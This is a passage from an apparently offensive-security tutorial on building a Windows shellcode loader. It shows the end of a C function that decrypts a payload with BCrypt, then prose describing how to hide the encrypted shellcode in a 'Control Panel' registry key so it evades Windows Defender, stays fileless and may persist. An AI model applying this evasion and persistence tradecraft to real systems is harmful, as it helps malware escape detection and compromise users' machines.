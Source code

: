```C
    if (status != 0) {
        BCryptDestroyKey(hKey);
        BCryptCloseAlgorithmProvider(hAlgorithm, 0);
        printf("BCryptDecrypt size check failed: 0x%x\n", status);
        return FALSE;
    }

    // Allocate plaintext buffer
    *plaintext = (BYTE*)malloc(cbPlaintext);
    if (!*plaintext) {
        BCryptDestroyKey(hKey);
        BCryptCloseAlgorithmProvider(hAlgorithm, 0);
        printf("Memory allocation failed\n");
        return FALSE;
    }

    // Perform decryption
    status = BCryptDecrypt(hKey, (BYTE*)ciphertext, ciphertextSize, NULL,
        NULL, 0, *plaintext, cbPlaintext,
        plaintextSize, BCRYPT_BLOCK_PADDING);
    if (status != 0) {
        free(*plaintext);
        BCryptDestroyKey(hKey);
        BCryptCloseAlgorithmProvider(hAlgorithm, 0);
        printf("BCryptDecrypt failed: 0x%x\n", status);
        return FALSE;
    }

    // Cleanup
    BCryptDestroyKey(hKey);
    BCryptCloseAlgorithmProvider(hAlgorithm, 0);
    return TRUE;
}
```



However, even after *this*, we'll make one final effort to subvert Windows Defender—namely, by writing our encrypted payload to the Windows registry, so as to remain stealthy, fileless, and potentially persistent.

In other words: we’re never writing to disk. Our shellcode lives only in memory, getting decrypted and XOR-decoded on the fly before execution.

But how can we perform reads and writes against the Windows registry? We'll need to use the `winreg` API from Microsoft.[^5] 

First we'll make use of `RegOpenKeyExA` and `RegSetValueExA` since we want to write to the Window's registry. But we need somewhere to write! And we want to write to Control Panel, under the current running user's username. 

So, before we read or write, we'll get the username from the current environment and append it to the write operation under the HKEY `Control Panel` -- this way when we do write out, it will be within the registry key `\Control Panel\Username` under `HKEY_CURRENT_USER`. 


[^3]: https://ntdoc.m417z.com/ntcreatethreadex
[^5]: https://learn.microsoft.com/en-us/windows/win32/api/winreg/